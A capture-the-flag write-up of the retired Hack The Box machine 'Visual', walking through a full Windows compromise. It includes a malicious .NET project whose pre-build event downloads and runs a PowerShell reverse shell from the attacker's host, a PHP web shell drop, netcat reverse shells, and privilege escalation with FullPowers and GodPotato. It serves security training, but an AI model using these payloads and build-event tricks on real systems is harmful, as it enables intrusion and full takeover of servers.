





# Hack The Box - Visual


Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Visual**. This machine starts with a Git-based build pipeline abuse that allows code execution through a malicious Visual Studio project, then moves to a PHP web shell drop that gives a foothold as `NT AUTHORITY\LOCAL SERVICE`. From there, I regain the missing impersonation privilege and use a potato-style escalation path to reach `NT AUTHORITY\SYSTEM`.

## Reconnaissance

I started with a full port scan to see what was exposed on the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.234
```

The scan showed only HTTP on port 80:

```text
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
```

The site itself was a Visual Studio build service. It accepted a Git repository, pulled the project, and compiled it automatically. Since the page mentioned .NET 6 support, I knew a simple C# project would likely build cleanly on the target.



## Initial Access

### Build Event Abuse

The idea here was to abuse build-time execution through a project file. Visual Studio supports pre-build and post-build events, and those events can run arbitrary commands during compilation.









To prepare the payload, I used Nishang’s PowerShell reverse shell script and hosted it on my machine.

if you want you can use this repo as well : https://github.com/charlesgargasson/SLN2RCE

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 443
```

I also started a simple web server to host the script.

```bash
python3 -m http.server 80
```

Then I modified the project file to include a `PreBuildEvent` target that runs the reverse shell command:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 2121" />
  </Target>

</Project>
```

### Gitea Setup

To host the malicious project, I spun up a local Gitea instance with Docker.

```yaml
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.21.3
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```

After finishing the install, I initialized the repository and pushed it to the Gitea origin.

```bash
git init
git checkout -b main
git config --global --add safe.directory /home/kali/share/Share/HTB/Boxes/Visual/Dotnet_project
git add .
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
git commit -m "first commit"
git remote add origin http://localhost:3000/test/dotnet_project.git
git push -u origin main
```

Once the target processed the repository, the build event fired and I got a reverse shell.

## Privilege Escalation

### Local Service Access

After landing on the box, I checked what privileges the current user had. I did not see an obvious way to escalate straight to SYSTEM, but I did notice write access to the XAMPP directory.

Since the web root was PHP-based, I dropped a PHP web shell into `C:\xampp\htdocs` and used it to run commands as `NT AUTHORITY\LOCAL SERVICE`.

For easier interaction, I used the same reverse shell approach again on a different port:

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 444
```

That gave me a shell as `NT AUTHORITY\LOCAL SERVICE`.

### Restoring Impersonation

I checked my privileges with:

```bash
whoami /priv
```

The usual impersonation privileges were missing, so I used **FullPowers** to restore them. I downloaded both FullPowers and `nc.exe` to the target.

```bash
wget "http://10.10.14.91/FullPowers.exe" -outfile "FullPowers.exe"
wget "http://10.10.14.91/nc.exe" -outfile "nc.exe"
```

Then I used FullPowers to launch a shell with the impersonation privilege restored:

```bash
.\FullPowers -c "C:\xampp\htdocs\nc.exe 10.10.14.91 445 -e cmd" -z -v
```

With that in place, I moved to the final step and used **GodPotato** to elevate to SYSTEM.

```bash
wget "http://10.10.14.91/GodPotato-NET4.exe" -outfile "GodPotato-NET4.exe"
```

Then I executed it to spawn a SYSTEM-level command shell:

```bash
C:\xampp\htdocs\GodPotato-NET4.exe -cmd "cmd /c C:\xampp\htdocs\nc.exe 10.10.14.91 446 -e cmd"
```

That gave me `NT AUTHORITY\SYSTEM` and access to the final flag.

## Attack Path

- **Scan the host** — identify only HTTP on port 80.
- **Analyze the application** — determine that it compiles Git-hosted Visual Studio projects.
- **Build a malicious project** — add a `PreBuildEvent` to execute PowerShell.
- **Host the payload** — run Gitea locally and push the project.
- **Trigger the build** — submit the repository to the target and get a shell.
- **Drop a web shell** — write into `C:\xampp\htdocs` for command execution as `LOCAL SERVICE`.
- **Check privileges** — confirm impersonation rights are missing.
- **Restore privileges** — use FullPowers to regain impersonation capability.
- **Escalate to SYSTEM** — use GodPotato to impersonate a SYSTEM token.
- **Read the final flag** — finish the machine as `NT AUTHORITY\SYSTEM`.
